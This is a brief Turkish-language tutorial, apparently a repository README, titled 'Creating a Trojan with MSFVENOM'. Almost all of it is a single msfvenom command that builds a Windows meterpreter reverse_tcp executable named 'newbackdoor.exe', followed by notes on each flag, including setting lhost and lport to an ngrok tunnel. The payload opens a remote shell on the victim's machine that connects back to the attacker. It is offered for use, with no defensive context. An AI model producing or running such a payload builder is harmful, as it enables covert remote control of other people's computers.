 # MSFVENOM ile Trojan Oluşturma

```msfvenom -p windows/meterpreter/reverse_tcp -a X86 --platform windows lhost=0.tcp... lport=12345 -f exe -o /root/newbackdoor.exe```

* -p: payload
* -a: bit sayısı
* --platform: hangi platformda çalışacağı 
* lhost: ngrok'dan kopyaladığımız IP
* lport: ngrok'dan kopyaladığımız PORT
* -f: dosya uzantısı 
* -o: trojan'in kaydedileceği konum
